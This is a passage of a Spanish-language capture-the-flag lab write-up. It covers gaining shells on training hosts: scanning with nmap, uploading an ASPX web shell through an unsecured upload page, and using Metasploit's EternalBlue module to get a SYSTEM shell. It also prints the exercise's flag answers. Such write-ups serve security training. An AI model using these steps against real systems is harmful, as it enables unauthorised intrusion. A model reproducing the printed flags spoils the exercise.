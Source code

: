 Finalmente, cuando la sesión de meterpreter se nos devuelve, ejecuto un "shell", y accedo a la flag con:
```
cat /customscripts/flag.txt
```

Siendo la respuesta del ejercicio: "*B1nD_Shells_r_cool*"


 **6. What is the hostname of Host-3?**
 Haciendo un escaneo básico:
``` 
nmap -sCV -Pn -n --open --min-rate 2000 172.16.1.13 -vvv
```

Observo que el nombre de la máquina es "SHELLS-WINBLUE"

Respuesta: *"SHELLS-WINBLUE"*

**7. Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt**
Haciendo un escaneo básico de nmap observo que cuenta con un sistema operativo Windows del 2008-2012. 
Observo que al entrar en "172.16.1.13" a travñés de firefox, me muestra un panel con varias opciones:
```
 10/5/2020  6:51 PM        <dir> aspnet_client
 10/5/2020  6:54 PM          791 upload.aspx
 10/5/2020  7:03 PM          873 upload.aspx.cs
 10/5/2020  7:07 PM        <dir> uploads
 10/5/2020  7:07 PM          400 web.config
```

En el apartado "upload.aspx" puedo subir archivos, mientras que en el "uploads" puedo ver esos archivos subidos. 

Y efectivamente, subiendo la webshell ubicada en:
```
/usr/share/webshells/aspx/cmdasp.aspx
```

Me devuelve una webhsell. 
Pero... haciendo un "whoami" en esa webshell observo que soy "iis apppool\defaultapppool"; pues, no tengo permisos de administrador para entrar en la ruta *C:\Users\Administrator\Desktop\Skills-flag.txt*.

Entonces, vamos a probar la vulnerabilidad *EternalBlue* sobre esta máquina.

Abro *msfconsole* y ejecuto:
```
search eternalblue
```

Utilizamos el exploit "windows/smb/ms17_010_psexec".
Seteamos el 
- RHOST: 172.16.1.13
- LHOST: 172.16.1.5               (consultado con IP A)

Finalmente, conseguimos la sesión de meterpreter, cargamos una consola interactiva con "shell", y ejecutamos un:
```
type "C:\Users\Administrator\Desktop\Skills-flag.txt"
```

Como respuesta, se obtiene la flag: *"One-H0st-Down!"*

